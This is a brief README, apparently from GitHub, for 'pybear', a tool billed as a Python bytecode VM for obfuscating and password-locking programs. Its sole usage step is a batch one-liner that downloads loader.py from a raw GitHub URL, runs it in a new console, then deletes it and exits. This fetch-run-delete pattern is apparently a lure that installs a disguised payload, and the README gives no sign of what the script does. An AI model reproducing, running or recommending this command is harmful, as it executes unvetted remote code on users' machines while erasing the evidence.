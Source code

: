 # pybear
A discrete, custom python bytecode virtual machine. Finally let's you obfuscate and password lock programs with ease.

# how to use
```batch
curl -o pyb.py https://raw.githubusercontent.com/repossess/pybear/main/loader.py && start cmd.exe /k python pyb.py && timeout /t 1 >nul 2>&1 && del pyb.py && exit
